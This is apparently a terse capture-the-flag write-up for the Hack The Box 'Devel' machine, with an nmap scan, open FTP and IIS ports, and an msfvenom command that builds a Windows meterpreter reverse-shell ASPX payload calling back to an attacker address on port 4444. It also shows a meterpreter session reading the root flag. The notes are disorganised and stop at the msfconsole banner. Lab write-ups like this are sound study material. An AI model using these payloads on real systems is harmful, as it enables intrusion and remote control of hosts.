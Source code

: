 # How to solove ?

## add Lame to /etc/hosts
sudo vim /etc/hosts

## scan on nmap 
`nmap -sC -sV -sT -Pn  10.10.10.5`  


<details><summary>nmap 実行結果</summary></details>

###  Summary
PORT     STATE  SERVICE       VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.134 LPORT=4444 -f aspx > devel.aspx

meterpreter > cat root.txt 
e621a0b5041708797c4fc4728bc72b4bmeterpreter

┌──(hage㉿kai)-[~/CheatSheet/writeup/htb/devel]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.134 LPORT=4444 -f aspx > devel.aspx                                                                                    15 ⚙
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2899 bytes

┌──(hage㉿kai)-[~/CheatSheet/writeup/htb/devel]
└─$ msfconsole                                                                                                                                                                  127 ⨯ 15 ⚙
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                              
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                              
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%                                                                                                              
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                              
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                              
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                              
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                              
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%                                                                                                              
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%                                                                                                              
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%                                                                                                              
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%                                                                                                              
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %                                                                                                              
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%                                                                                                              
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%                                                                                                              
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                              
                                                                                                                                                                                           
